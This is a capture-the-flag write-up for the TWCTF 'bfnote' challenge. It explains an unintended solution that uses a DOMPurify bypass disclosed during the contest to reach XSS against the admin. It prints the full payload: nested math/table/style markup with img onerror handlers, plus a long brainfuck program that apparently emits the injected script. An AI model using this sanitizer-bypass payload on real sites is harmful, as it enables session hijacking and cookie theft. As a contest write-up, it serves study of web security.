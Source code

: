 # bfnote
This is **unintended** solution. For intended one see other writeups here: [https://ctftime.org/task/13089](https://ctftime.org/task/13089)

In this challenge we can make a POST request to the server containing brainfuck code. Then we can send the prepared brainfuck note to the admin. That suggests that the solution is XSS and the flag is somewhere in admin's cookie.

The code is displayed, but previously sanitized by DOMPurify:
```javascript
document.getElementById('program').innerHTML = DOMPurify.sanitize(program).toString();
```
and then executed - however, the result is also sanitized using:
```html
output = output.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
```

The intended solution required us to use google recaptcha's callback mechanism. Fortunately for us (and unfortunately for challenge author...) a 1-day bug in DOMPurify has been announced and fixed during the CTF. As the challenge was using a pinned version of library, it was made possible to inject malicious code - with some little filtering on the way. The final payload:

```
[<math><mtext><table><mglyph><style><math><img src="x" onerror="window.output.innerHTML=window.output.innerText"><img src="x" onerror="window.output.innerHTML=window.output.innerText"></math>]----[---->+<]>---.-[--->+<]>.++++.------.-[--->+<]>--.---[->++++<]>-.-.++++[->+++<]>+.[--->++<]>-----.+[-->+<]>+++.----[->++++<]>.[---->+<]>++++.--.+++++[->+++<]>.-.---------.+++++++++++++..---.+++.[-->+<]>++++.+[-->+<]>+++.-[->+++<]>.[--->++<]>-----.[----->++++<]>.+++++++++++.------------.-[--->+<]>-.--------.--------.+++++++++.++++++.[++>---<]>.--[--->+<]>-.-[--->+<]>----.-------------.----.--[--->+<]>-.+++[->+++<]>.+[--->++<]>+.-[--->+<]>.-------.++++++++.--------.+++++++++.++++++.+[--->+<]>+.-.----[->+++<]>.++++.------.-----[->+++<]>+.++.-[-->+++<]>-.[->++++++<]>+.-[-->+<]>---.[--->++<]>-.-.++++[->+++<]>+.[--->++<]>-----.-[--->++<]>-.----[->+++<]>-.++++++++++++..----.+++.+[-->+<]>.-----------..++[--->++<]>+.[->+++<]>.---.++++++.+++++++..----.[->++++++++++<]>.[--->++<]>-.----------.+++++++++++.+++[->+++<]>.[->+++<]>.+[->++<]>+.++++.-[-->+<]>.[->++<]>-.--.-[++++>-----<]>.--.++.-----------.-[--->+<]>++.[-->+<]>++++.-----[->++<]>.[-->+<]>-.----.+++++++.--.[->++<]>-.--.-[-->+<]>---.+++[->++<]>+.+[-->+<]>+++..---[->++<]>.[-->+<]>----.-[--->+<]>++.[-->+<]>+++.----.++.--[->++<]>-.+.--.[-->+<]>.++++.--.+++.-----.[----->+<]>++.+++[-->+++<]>.[--->++<]>-----.-[--->++<]>-.++++.+[--->+<]>.+++++++++++.------------.-[--->+<]>-.--------.--------.+++++++++.++++++.[++>---<]>.--[--->+<]>-.++++++++++++..----.--.----.++++[->+++<]>.+[--->+++++<]>.+++++++++++.------------.-[--->+<]>-.--------.--------.+++++++++.++++++.[++>---<]>.+++[->++<]>.+++++++++++++.-----------.+[--->+<]>++.-----[++>---<]>.++[->++<]>+.-[++>-----<]>..-----------.+++++++++.----------.-[--->++<]>+.+[-->+++<]>++.+.+++.--------.-[->+++<]>-.+[--->+<]>.[->+++<]>.-------.---[->++<]>.
```
and the flag that made us aware this was not intended solution:
```
TWCTF{reCAPTCHA_Oriented_Programming_with_XSS!}
```
